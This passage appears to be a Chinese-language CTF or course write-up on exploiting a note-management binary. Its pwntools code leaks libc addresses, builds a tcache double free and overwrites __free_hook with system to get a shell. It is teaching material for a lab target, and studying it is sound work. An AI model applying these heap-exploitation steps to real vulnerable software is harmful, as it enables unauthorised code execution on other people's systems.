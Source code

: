 ```python
add_note(14, 0x420)
del_note(12)
del_note(13)
add_note(12, 0x420)
read_note(12)

leak_libc = u64(r.recv(8))
libc_base = leak_libc - 0x1ed0e0
system_addr = libc_base + libc.symbols['system']
free_hook = libc_base + 0x1eee48
log.success(f'Leak Libc = {hex(leak_libc)}')
log.success(f'Libc Base = {hex(libc_base)}')
log.success(f'System Address = {hex(system_addr)}')
log.success(f'Free Hook = {hex(free_hook)}')
r.recv(0x420 - 0x8)
```

#### 方法一: Double Fee
有了libc address後，我們要想辦法把system address寫到`__free_hook`的位置，如果是要用double free的方法的話可以參考上課的講義:
![image](https://hackmd.io/_uploads/SJNM1Mf8T.png)

最簡單的方法是，我把tcache填滿(一定要)，然後用free(a)→free(b)→free(a)的順序產生double free
```python
for i in range(1, 0xa):
    add_note(i, 0x10)

for i in range(1, 0x8):
    del_note(i)

del_note(8)
del_note(9)
del_note(8)
```
此時的heapinfo會變成:
![image](https://hackmd.io/_uploads/H1GGgGM86.png)

接著我們把tcache清空後再繼續add_note就會把fastbin的free chunk搬到tcache中
```python
add_note(8, 0x18)
```
![image](https://hackmd.io/_uploads/B1ErzMM8T.png)

接著我們寫free_hook address到note #8，這樣的話，tcache的順序就會變成下圖:
```python
write_note(8, p64(free_hook))
```
![image](https://hackmd.io/_uploads/rktIXGMIp.png)

此時我們就把free chunk變成free_hook的地址，我們只不斷的add_note，就可以把tcache的free chunk要回來進行寫入，也就是寫system address:
```python
bin_sh = u64(b'/bin/sh\x00')
add_note(9, 0x10)
write_note(9, p64(bin_sh))
add_note(10, 0x10)
add_note(11, 0x10)
write_note(11, p64(system_addr))
```
![image](https://hackmd.io/_uploads/SydnNzMIa.png)
